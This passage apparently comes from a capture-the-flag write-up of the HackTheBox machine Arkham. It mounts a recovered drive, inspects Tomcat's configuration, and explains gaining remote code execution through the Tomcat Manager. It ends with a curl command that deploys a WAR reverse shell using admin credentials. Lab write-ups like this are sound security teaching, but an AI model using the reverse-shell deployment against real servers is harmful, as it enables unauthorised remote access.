 Lets mount this drive with:

```bash
mkdir /mnt/batshare
mount /dev/mapper/batshare /mnt/batshare
```

Now we can `cd` into this filesystem and have a look around:

![tree-12](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Arkham/img/tree-12.png)

Looks like the Apache server's configuration directory.

At first, i checked `tomcat-users.xml`, as it is possible to gain RCE via the [Tomcat Web Application Manager](https://tomcat.apache.org/tomcat-7.0-doc/html-manager-howto.html). The manager is an administrative featrue, designed to give administrators the ability to remotly manage the server, by adding/removing/modifying content, etc. 

If we have proper credentials of a user with admin roles which is configured in `tomcat-users.xml`, we can upload a `war` reverse shell with this command:

```bash
curl --upload-file monshell.war -u 'tomcat:password' "http://localhost:8080/manager/text/deploy?path=/monshell"
```

